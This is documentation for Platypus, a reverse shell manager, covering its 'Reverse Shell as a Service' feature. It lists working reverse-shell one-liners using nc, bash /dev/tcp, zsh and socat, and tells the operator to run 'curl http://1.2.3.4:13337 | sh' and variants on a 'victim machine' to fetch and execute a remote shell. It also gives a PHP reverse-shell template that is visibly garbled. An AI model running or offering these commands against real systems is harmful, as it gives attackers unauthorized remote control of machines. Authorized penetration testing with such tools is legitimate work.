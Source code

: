 # RaaS

!!! Warning
    本功能仅针对 `*NIX` 客户端，暂不支持 Windows。

![](/images/webui/raas.gif)

Platypus is able to multiplex the reverse shell listening port. Port `13337 / 1338` can handle reverse shell client connections.  
Also, There is another interesting feature that platypus provides, which is called `Reverse Shell as a Service (RaaS)`.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.
Like you have already used before, here are some **BAD** examples:

```bash
nc -e /bin/bash 192.168.174.132 8080
bash -c 'bash -i >/dev/tcp/192.168.174.132/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.174.132 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.132:8080
```

To archive your aim, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/13337 0>&1"` is the equivalent of `curl http://1.2.3.4:13337/5.6.7.8/13337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/13337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:13337`.

## Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337 | sh` on the victim machine

## Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/assets/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/python | sh` on the victim machine

## What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/5.6.7.8/7331/python | sh` on the victim machine

## How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",`popen /bin/sh -i <&3 >&3 2>&3", "r");'`
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg assets -o ./internal/util/assets/assets.go ./assets/config.example.yml ./assets/template/rsh/... ./web/ttyd/dist/... ./web/frontend/build/... ./build/termite/...
```
